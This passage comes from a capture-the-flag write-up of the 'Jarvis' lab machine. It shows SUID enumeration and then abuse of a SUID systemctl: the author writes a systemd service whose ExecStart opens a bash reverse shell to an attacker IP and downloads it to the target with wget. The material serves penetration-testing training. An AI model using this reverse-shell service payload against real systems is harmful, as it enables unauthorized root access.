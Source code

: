 ### Enumeration

I checked SUID binaries.

```bash
pepper@jarvis:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Among the binaries, `/bin/systemctl` looks intriguing.
Using this, I think I can escalate privileges to root.

### Privilege escalation

Here's the [reference](https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation) for this approach.

Let's prepare a service as follows;

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ cat root.service 
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9002 0>&1'

[Install]
WantedBy=multi-user.target
```

Then, let's transfer this file to the target server on a writable directory(`/dev/shm`).

```bash
pepper@jarvis:/dev/shm$ wget http://10.10.14.4:8000/root.service
wget http://10.10.14.4:8000/root.service
--2025-04-15 02:36:41--  http://10.10.14.4:8000/root.service
Connecting to 10.10.14.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 169 [application/octet-stream]
Saving to: 'root.service'

root.service          0%[                    ]       0  --.-KB/s           root.service        100%[===================>]     169  --.-KB/s    in 0s      

2025-04-15 02:36:41 (30.9 MB/s) - 'root.service' saved [169/169]
```
